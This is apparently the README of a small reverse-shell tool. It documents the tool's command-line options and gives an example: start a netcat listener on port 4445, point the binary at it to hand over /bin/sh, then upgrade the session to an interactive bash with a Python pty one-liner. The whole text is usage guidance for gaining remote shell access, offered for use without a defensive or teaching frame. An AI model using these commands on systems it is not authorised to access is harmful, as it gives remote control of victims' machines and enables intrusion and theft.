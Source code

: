 # reverse-shell

A simple reverse shell

## Usage

```
usage: reverse-shell [options] <host> <port>
options:
	-h         : display this and exit
	-v         : display version and exit
	-f         : foreground mode (eg: no fork)
	-6         : use IPv6 socket
	-s <shell> : give the path shell (default: /bin/sh)
```

## Example

On the 'client' side, we create the listener :
```
nc -lp 4445
```

On the 'server' side, we bind the shell to the listener :
```
./reverse-shell 127.0.0.1 4445
```

## Tip
Once you have the shell, if you want to be more confortable :
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
